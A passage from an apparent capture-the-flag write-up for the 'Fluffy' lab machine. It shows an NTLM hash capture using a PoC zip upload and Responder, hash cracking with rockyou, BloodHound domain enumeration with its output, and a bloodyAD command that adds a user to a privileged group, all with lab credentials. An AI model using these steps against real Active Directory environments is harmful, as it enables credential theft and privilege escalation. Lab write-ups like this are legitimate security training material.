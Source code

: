 ```bash
python3 exploit.py -i yourip -f loveyou

# Set up responder to capture the NTLM hash when server respond back.
sudo responder -I tun0 -v

# Send the zip file generate by the PoC
smbclient //10.10.11.69/IT -U j.fleischman%J0elTHEM4n1990! -c "put exploit.zip"

```

- Once we get the hash, save it into a file. Use hashcat or john to crack it with rockyou wordlist.

## Bloodhound

- Use bloodhound to view the relationship inside the domain to increase attack vector.

```bash
bloodhound-python -u 'p.agila' -p 'prometheusx-303'  -d fluffy.htb -ns 10.10.11.69 -c All --zip                                             ⏎
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 16S
INFO: Compressing output into 20250529102900_bloodhound.zip
```

![Description](/imagesMD/pic1.png)

- Note that **p.agila** can add itself to the **service** user group
  ![Description](/imagesMD/pic2.png)
- Then the First add p.agila to the **group** group has write permission for the **CA_SVC** user
  ![Description](/imagesMD/pic3.png)
- First add **p.agila** to the group.

```bash
bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila            ⏎
[+] p.agila added to SERVICE ACCOUNTS
```
